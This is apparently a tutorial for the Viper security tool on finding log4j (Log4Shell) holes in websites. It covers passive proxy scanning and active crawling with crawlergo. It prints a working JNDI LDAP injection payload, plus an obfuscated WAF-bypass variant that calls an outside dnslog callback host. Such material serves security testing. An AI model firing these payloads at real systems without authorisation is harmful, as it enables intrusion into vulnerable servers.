


# Use Viper to scan for log4j vulnerabilities (active scan / passive scan)

# Function
## Passive scan
● automatically replace the GETrequest parameter with payload

● the automatic replacement POST request parameter is payload

● the JSON value of automatic replacement POST request is payload

● auto replace skip password field

● automatically add payload in headers (polling according to dictionary)

● payload includes the original payload and the payload bypassing WAF

```plain
${jndi:ldap://ed3bf69b5e9611ec.xxx.ceye.io/hi}

${${c:Xy:-j}${Kp:W:q:-n}${dzD:-d}${UQt:-i}${GT:-:}${s:hzr:e:-l}${e:ZSJ:yd:-d}${fA:kBl:c:-a}${Hbn:q:-p}${f:Uu:-:}${HOB:-/}${Ijk:E:-/}${dfG:-e}${F:dSj:JE:-d}${Z:-3}${BOI:Yrf:-b}${Yt:S:-f}${DKB:-6}}${Z:-b}${xdB:XBZ:-5}${dW:-e}${uC:-6}${OC:KVJ:j:-1}${L:o:-1}${jhr:-e}${d:-c}${Gi:nUE:AX:-.}${vuo:hy:Srz:-9}${xv:-f}${KG:-p}${xm:-p}${My:aQw:-b}${Mz:Xr:-j}${Z:wWt:-.}${Kx:D:-c}${Y:-e}${j:-y}${xOm:-e}${Cn:-.}${N:Tx:de:-i}${hT:h:P:-o}${qi:yx:i:-/}${j:-h}${Qfp:-i}}
```

+ The payload contains UUID, which can find the specific request content that triggers the vulnerability according to the dnslog record


## Active scan
+ Get all requests for automatic page acquisition through chrome headless + crawler, and import the requests into the passive proxy to realize automatic scanning

# Tutorials
## Passive scan
+ Update Viper version to `v1.5.10`
+ 启动VIPER


+ Configure dnslog domain name


+ Set browser proxy to viperip: 28888

+ Open the target website through the browser, click freely, input information, etc




+ Viper background will automatically replace the entered value as payload
+ Log in to dnslog platform and observe whether there are records


+ Copy the UUID information in the red box and query it on the main page


+ The query results contain specific requests that can trigger the vulnerability


## Active scanning
+ Update Viper version to `v1.5.10`
+ Start VIPER


+ Configure dnslog domain name


● it is assumed here that the website to be tested is [http://target.com](http://target.com)

● install crawlergo [https://github.com/Qianlitp/crawlergo](https://github.com/Qianlitp/crawlergo)

● start the crawler and send traffic to viper's proxy

```plain
.\crawlergo.exe -c ./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

● wait for the webspider to finish

● log in to dnslog platform and observe whether there are records


+ Copy the UUID information in the red box and query it on the main page


+ The query result contains a specific request that can trigger the vulnerability (the request is automatically sent by crawlergo)


